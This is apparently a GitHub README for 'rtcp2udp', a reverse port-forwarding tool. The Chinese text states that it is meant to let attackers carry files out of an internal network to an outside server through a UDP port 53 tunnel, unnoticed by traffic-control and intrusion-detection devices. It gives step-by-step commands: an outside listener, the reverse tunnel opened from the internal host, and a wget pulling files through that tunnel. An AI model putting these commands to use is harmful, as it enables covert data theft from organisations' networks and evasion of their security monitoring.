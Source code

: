 # rtcp2udp
反向端口转发工具 v 1.0  
Reverse TCP Port to UDP Forwarding Tools  
Last Update: 2016年04月29日  
问题反馈: ringzero@0x557.org  

## 实例图
![](https://github.com/ring04h/rtcp2udp/blob/master/portmap.png?20160429)  

## 描述
在Hack场景中，Hack人员需要从内网获取指定文件，并向外网传输时，不被流控设备，入侵检测设备所警觉；  
本工具的原理为，向外网服务器建立一个反向的UDP(53)隧道,用于文件传输；  

## 网络传输流程
外网客户端连接 119.29.29.29 的80端口，等于连接内网 172.168.1.10 服务器的80端口，隧道采用UDP协议传输  

## 使用说明
Http Server  <- 内网机器 -> Internet Server (UDP隧道)  
Client -> tcp:119.29.29.29:80 -> udp:119.29.29.29:53 -> tcp:172.168.1.10:80

* 在你的外网服务器监听用于服务的 UDP&TCP 端口
这里假设场景,你的外网服务器 IP 为 119.29.29.29
```shell
[root@localhost ~]# python tcp2udp.py -t 0.0.0.0:80 -u 0.0.0.0:53
[INFO] UDPServer 0.0.0.0:53 Listening Success...
[INFO] TCPServer 0.0.0.0:80 Listening Success...
```
* 在内网机器打通与外网服务器之间的 UDP 隧道
```shell
[root@localhost ~]# python rtcp2udp.py -t 172.168.1.10:80 -u 119.29.29.29:53
[INFO] Client Bridge Connection Success...
```
* 当隧道打通后，就可以开始文件传输服务
```shell
[root@localhost ~]# wget http://119.29.29.29/src/file.tar.gz
```

